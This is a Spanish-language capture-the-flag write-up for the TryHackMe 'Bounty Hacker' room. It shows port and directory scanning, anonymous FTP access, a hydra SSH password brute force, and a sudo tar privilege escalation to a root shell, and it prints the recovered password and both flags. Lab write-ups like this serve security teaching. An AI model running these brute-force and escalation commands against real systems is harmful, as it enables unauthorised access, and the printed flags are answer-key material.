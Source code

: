 # Write Up Bounty Hacker TryHackMe

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

### Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST>
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.112.52/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/images               (Status: 301) [Size: 313] [--> http://10.10.112.52/images/]
/server-status        (Status: 403) [Size: 277]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

### ftp

Info:

```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
```

Por lo que vemos hay un `ftp` que se puede entrar como anonimo...

```shell
ftp anonymous@<IP>
```

Una vez dentro si intentamos meter algun comando nos mete en modo pasivo, por lo que dentro de ese modo pondremos...

```shell
passive off
pasv off
```

Uno de los dos sirve, esperaremos entorno a unos 3 minutos hasta que nos eche de ese modo y podremos listar...

```shell
ls
```

Info:

```
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```

No descargamos esos 2 archivos...

```shell
get locks.txt
```

```shell
get task.txt
```

Una vez visto que uno es un diccionario de contraseñas y el otro te da la pista de un usuario `lib` tiraremos un hydra...

```shell
hydra -l lin -P locks.txt ssh://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-12 15:13:37
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 26 tasks per 1 server, overall 26 tasks, 26 login tries (l:1/p:26), ~1 try per task
[DATA] attacking ssh://10.10.112.52:22/
[22][ssh] host: 10.10.112.52   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-12 15:13:40
```

Con estas credenciales nos conectamos por ssh...

```shell
ssh lin@<IP>
```

Una vez dentro leemos la primera flag...

> user.txt (flag1)

```
THM{CR1M3_SyNd1C4T3}
```

y si hacemos `sudo -l` veremos los permisos que tenemos como sudo...

```
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Con esto podemos ser `root` de un comando, para saber todo esto nos iremos a la pagina de GTFOBins para ver lo que se puede hacer con estas cosas...

URL: https://gtfobins.github.io

```shell
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Si ejecutamos eso seriamos `root` y ya podriamos leer la ultima flag...

> root.txt (flag2)

```
THM{80UN7Y_h4cK3r}
```
